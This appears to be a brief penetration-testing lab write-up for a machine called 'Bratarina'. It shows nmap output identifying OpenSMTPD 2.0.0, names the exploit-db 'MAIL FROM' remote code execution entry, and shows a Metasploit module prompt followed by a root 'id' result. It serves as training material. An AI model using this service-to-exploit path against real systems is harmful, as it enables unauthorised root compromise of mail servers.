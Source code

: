 # Bratarina

### Enumeration

```
25/tcp  open   smtp        OpenSMTPD
| smtp-commands: bratarina Hello nmap.scanme.org [192.168.49.234], pleased to meet you, 8BITMIME, ENHANCEDSTATUSCODES, SIZE 36700160, DSN, HELP, 
|_ 2.0.0 This is OpenSMTPD 2.0.0 To report bugs in the implementation, please contact bugs@openbsd.org 2.0.0 with full details 2.0.0 End of HELP info 
```

OpenSMTPD - MAIL FROM Remote Code Execution (Metasploit)

[https://www.exploit-db.com/exploits/48038](https://www.exploit-db.com/exploits/48038)

### Access

```
msf6 exploit(unix/smtp/opensmtpd_mail_from_rce) >
...

id
uid=0(root) gid=0(root) groups=0(root)
```
